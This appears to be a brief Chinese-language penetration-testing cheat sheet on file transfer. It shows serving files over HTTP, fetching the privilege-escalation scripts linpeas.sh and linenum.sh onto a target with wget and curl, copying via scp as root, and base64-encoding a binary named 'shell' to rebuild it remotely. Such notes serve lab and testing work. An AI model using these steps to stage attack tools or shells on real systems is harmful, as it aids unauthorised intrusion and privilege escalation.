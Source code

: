 # 文件传输小记

-  启动本地的 web 服务器

```
    python3 -m http.server 8000
```

-  从本地机器上下载文件到远程服务器

```
    wget http://10.10.10.10:8000/linpeas.sh
    
    curl http://10.10.10.10:8000/linenum.sh -o linenum.sh
```

- 使用 scp 将文件传输到远程服务器（需要 SSH 访问）

```
    scp linenum.sh root@10.10.10.10:/tmp/linenum.sh
```

-  将文件转换为 base64

```
    base64 shell -w 0
```

-  将文件从 base64 转换回原始格式

```
    echo f0VMR...SNIO...InmDwU \| base64 -d > shell
```

-  检查文件的 md5sum 以确保正确转换

```
    md5sum shell
```